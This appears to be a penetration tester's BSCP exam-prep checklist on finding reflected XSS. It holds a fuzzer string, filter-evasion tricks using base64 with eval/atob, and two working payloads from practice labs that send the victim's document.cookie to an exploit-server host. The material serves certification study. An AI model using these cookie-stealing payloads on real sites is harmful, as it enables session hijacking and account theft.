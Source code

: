 - [ ] For these fields, you will input the fuzzer `<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer` to potentially identify XSS on an input field.
- [ ] If a field looks like a potentially valid area, you are going to want to input a field, capture it in HTTP History, selecting the input and the right clicking, select **Scan Selected Insertion point** as shown in the screenshot below: ![[Technical/Web/Methodology/BSCP Security Testing Checklist/Images/Pasted image 20250927235309.png]]
- [ ] If you need avoid `.` in your payloads, instead of `document.cookie`, you can substitute this and instead run `[document]["cookie"]` as a replacement. We need the double quotes on the end because `["cookie"]` is a string literal used as a property name, while `[cookie]` is a variable. This whole thing is known as bracket notation https://www.freecodecamp.org/news/dot-notation-vs-square-brackets-javascript/
- [ ] You can also try base64 encoding a payload and using `eval` and `atob` doing `eval(atob("BASE64_ENCODED_PAYLOAD"))`


## Payloads that have worked in the past
**Reflected XSS Delivered to Steal Cookies (Practice Exam 2)**:
  - Started with the fuzzer, identified `/?find=%22%7D%3Bdocument.location%3D%27https%3A%2F%2Fexploit-0a9c00fc0384d7f8807f022101cd00bd.exploit-server.net%2Fvalues%3Fvalue%3D%27%2Bdocument.cookie%3B%2F%2F` would send over a cookie to the exploit sever, URL decoded this was `/?find="};document.location='https://exploit-0a9c00fc0384d7f8807f022101cd00bd.exploit-server.net/values?value='+document.cookie;//`
  - The payload body we sent to the victim was 
``` javascript
<script>
document.location = "https://0abc00d80341d72f808003c9008f008d.web-security-academy.net/?find="};document.location='https://exploit-0a9c00fc0384d7f8807f022101cd00bd.exploit-server.net/values?value='+document.cookie;//"
</script>
``` 

**Reflected XSS Delivered to Steal Cookies (Practice Exam 1)**
* Started with fuzzer which popped an alert up, refined this to find the payload `"-alert()-"` to work but found that this didn't allow any `.` 
* We relied on the atob trick to sneak a `.` by inputting the following that translates the base64 to `alert(document.cookie)`
``` javascript
"-eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))-"
```
* Finally we weaponise it with the payload `document.location="https://exploit-0a48005f03bcd0308082111c01e900d0.exploit-server.net/value?value="+document.cookie` and base64 encode this and wrap around atob to then put in a script tag in our exploit server and send over to our victim to leak the cookie:
``` javascript
<script>
document.location="https://0afc00af036bd0bb80a412020025002d.web-security-academy.net/?SearchTerm=%22-eval%28atob%28%22ZG9jdW1lbnQubG9jYXRpb249Imh0dHBzOi8vZXhwbG9pdC0wYTQ4MDA1ZjAzYmNkMDMwODA4MjExMWMwMWU5MDBkMC5leHBsb2l0LXNlcnZlci5uZXQvdmFsdWU%2FdmFsdWU9Iitkb2N1bWVudC5jb29raWU%3D%22%29%29-%22"
</script>
```
![[Technical/Web/Methodology/BSCP Security Testing Checklist/Images/Pasted image 20250928125041.png]]